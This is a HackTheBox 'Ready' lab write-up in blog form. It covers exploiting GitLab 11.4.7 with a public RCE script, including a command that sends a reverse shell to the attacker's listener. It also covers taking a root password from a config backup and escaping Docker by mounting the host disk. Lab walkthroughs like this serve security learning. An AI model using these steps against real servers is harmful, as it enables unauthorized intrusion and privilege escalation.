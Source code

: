 ```yaml
---
layout: post
title:  "HackTheBox - Ready"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027150-bc1e52b6-053c-4aa6-87f6-5970850653de.png
beforetoc: ""
toc: false
tags: [ HTB, CVE, Linux ]
---
```

Linux machine medium level

# Table of Contents
1. [Enumeration](#enumeration)
2. [Explotation](#explotation)
3. [Privilege Escalation](#escalation)

---

## Enumeration: <a name="enumeration"></a>

**Ports:**

- 22 SSH
- 5080 HTTP "GitLab"

### Gitlab

Before login we must be registered:
```http
http://10.10.10.220:5080/users/sign_in
```
![RegisterLogin](https://user-images.githubusercontent.com/47476901/119669294-3ca7ad80-be38-11eb-9974-73cae9331abc.png)



While looking at Gitlab I realized that I had version 11.4.7 and I found an RCE that is available.

![Searchsploit](https://user-images.githubusercontent.com/47476901/119669311-40d3cb00-be38-11eb-8ac5-df1bf27849cb.png)

## Explotation: <a name="explotation"></a>

This exploit creates an rce in a gitlab project that gives us a reverseshell when executed.

- <a href="https://www.exploit-db.com/exploits/49334" target="_blank">Exploit Here</a>


```bash
python3 rce.py -u erik1 -p erik1234 -g http://10.10.10.220 -l 10.10.14.31 -P 1234
```

![ExploitRCE](https://user-images.githubusercontent.com/47476901/119669333-44675200-be38-11eb-957b-db84c295605a.png)

This exploit creates a project that offers us a reverse shell, we open the project to execute the reverse.

Listening on the port indicated in the exploit:

![ReverseShell](https://user-images.githubusercontent.com/47476901/119669469-61038a00-be38-11eb-8de0-2c852d6f0959.png)

## Privilege Escalation: <a name="escalation"></a>
The user flag can be found in “/home/dude/user.txt”.

![UserFlag](https://user-images.githubusercontent.com/47476901/119669485-64971100-be38-11eb-8089-4a9cbc8d0877.png)

In the path /opt/backups/gitlab.rb we will find a backup with the root password of the container.

![FindPasswordRoot](https://user-images.githubusercontent.com/47476901/119681371-4c2bf400-be42-11eb-96da-72a78471ff0d.png)

We use the password that we have found in the backup and access the root user.

![LoginRoot](https://user-images.githubusercontent.com/47476901/119681390-4fbf7b00-be42-11eb-8746-3ce9e9af66a4.png)


Being inside a docker we will have to try to collect information outside of it, for this we will do the following:

We mount the container host partition to be able to view it, there we will find the flag:

![MountDocker](https://user-images.githubusercontent.com/47476901/119681411-55b55c00-be42-11eb-9035-b2cf24373cad.png)


![RootFlag](https://user-images.githubusercontent.com/47476901/119681425-5b12a680-be42-11eb-91ad-9c1584666773.png)


**Machine Completed**
